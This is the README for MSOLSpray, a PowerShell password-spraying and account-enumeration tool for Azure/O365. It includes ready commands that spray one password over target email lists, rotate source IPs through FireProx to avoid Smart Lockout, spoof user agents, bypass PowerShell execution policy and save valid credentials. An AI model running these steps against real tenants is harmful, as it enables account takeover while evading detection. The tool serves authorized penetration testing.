 # MSOLSpray
A password spraying tool for Microsoft Online accounts (Azure/O365). The script logs if a user cred is valid, if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, or if the account is disabled. 

BE VERY CAREFUL NOT TO LOCKOUT ACCOUNTS!

## Why another spraying tool?
Yes, I realize there are other password spraying tools for O365/Azure. The main difference with this one is that this tool not only is looking for valid passwords, but also the extremely verbose information Azure AD error codes give you. These error codes provide information relating to if MFA is enabled on the account, if a tenant doesn't exist, if a user doesn't exist, if the account is locked, if the account is disabled, if the password is expired and much more.

So this doubles, as not only a password spraying tool but also a Microsoft Online recon tool that will provide account/domain enumeration. In limited testing it appears that on valid login to the Microsoft Online OAuth2 endpoint it isn't auto-triggering MFA texts/push notifications making this really useful for finding valid creds without alerting the target.

Lastly, this tool works well with [FireProx](https://github.com/ustayready/fireprox) to rotate source IP addresses on authentication requests. In testing this appeared to avoid getting blocked by Azure Smart Lockout. HEY! Go into script and add fireprox headers to spoof.

**Brought to you by:**

[<img src="https://www.blackhillsinfosec.com/wp-content/uploads/2016/03/BHIS-logo-L-300x300.png">](https://www.blackhillsinfosec.com)

## Quick Start
You will need a userlist file with target email addresses one per line. Open a PowerShell terminal from the Windows command line with 'powershell.exe -exec bypass'.

```PowerShell
Import-Module MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020 -Delay 10
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020 -Delay 10 -URL https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox/ 
Invoke-MSOLSpray -UserList .\userlist.txt -Password Winter2020 -Delay 10 -URL https://api-gateway-endpoint-id.execute-api.us-east-1.amazonaws.com/fireprox/ -UserAgent SpecialString -OutFile valid-users.txt
```

### Invoke-MSOLSpray Options
```
UserList  - UserList file filled with usernames one-per-line in the format "user@domain.com"
Password  - A single password that will be used to perform the password spray.
OutFile   - A file to output valid results to.
Force     - Forces the spray to continue and not stop when multiple account lockouts are detected.
URL       - The URL to spray against. Potentially useful if pointing at an API Gateway URL generated with something like FireProx to randomize the IP address you are authenticating from.
Delay     - Number of seconds to wait between requests. (int)
UserAgent - Spoof User Agent string.
```

### Shout out to contributors
- https://github.com/ceramicskate0/
- https://github.com/rvrsh3ll
- https://github.com/davidnibbe
- https://github.com/justin-p
